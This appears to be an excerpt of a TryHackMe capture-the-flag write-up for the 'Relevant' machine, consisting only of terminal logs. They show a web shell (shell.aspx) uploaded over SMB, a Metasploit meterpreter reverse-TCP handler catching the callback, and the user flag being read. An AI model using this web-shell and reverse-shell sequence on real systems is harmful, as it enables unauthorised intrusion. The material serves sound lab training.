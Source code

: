 ```
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (798.5 kb/s) (average 798.5 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 4935058 blocks available
smb: \>
```

```
kali@kali:~/CTFs/tryhackme/Relevant$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.9.11:49873) at 2020-10-14 21:52:05 +0200
```

```
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > cd c:/users
meterpreter > dir
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:52 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:49 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   0     dir   2020-07-25 16:57:31 +0200  Administrator
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  All Users
40777/rwxrwxrwx   0     dir   2020-07-25 17:21:26 +0200  Bob
40555/r-xr-xr-x   0     dir   2016-07-16 08:04:24 +0200  Default
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  Default User
40555/r-xr-xr-x   0     dir   2016-07-16 15:23:21 +0200  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:23:24 +0200  desktop.ini

meterpreter > cd c:/users/Bob/Desktop
meterpreter > dir
Listing: c:\users\Bob\Desktop
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  35    fil   2020-07-25 17:23:52 +0200  user.txt

meterpreter > cat user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
